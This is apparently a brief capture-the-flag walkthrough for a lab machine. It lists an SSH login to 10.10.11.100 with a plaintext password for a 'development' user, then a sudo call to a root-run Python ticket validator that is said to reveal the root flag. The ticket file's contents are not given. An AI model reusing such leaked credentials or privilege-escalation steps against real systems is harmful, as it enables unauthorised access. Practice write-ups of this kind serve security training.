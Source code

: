 # Get User :
ssh development@10.10.11.100<br><br>
pass: m19RoAU0hP41A1sTsq6K<br>
cat user.txt<br>

# Get Root :
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py<br>
Please enter the path to the ticket file:<br>
file.md<br>
Destination:<br>
(destination is your root flag)
